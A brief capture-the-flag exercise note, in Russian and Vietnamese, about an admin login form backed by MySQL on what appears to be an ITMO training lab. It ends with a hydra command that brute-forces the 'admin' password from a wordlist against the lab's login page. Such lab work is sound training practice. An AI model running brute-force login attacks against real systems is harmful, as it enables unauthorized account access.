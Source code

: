 # Простая форма авторизации
Ответ где-то в кабинете администратора. Но ни логина, ни пароля вы не знаете? Известно только, что база данных MySQL.
---
Mẫu ủy quyền đơn giản

Câu trả lời nằm ở đâu đó trong văn phòng quản trị viên. Nhưng bạn không biết thông tin đăng nhập hoặc mật khẩu của mình? Chúng tôi chỉ biết rằng cơ sở dữ liệu là MySQL.


hydra -l admin -P passwords.txt http-post-form "https://4418ce5b-b9ff-4824-8693-21b566388d97-sqlinj-auth-simple-app.web.lms.itmo.xyz/login.php:username=^USER^&password=^PASS^:F=incorrect"
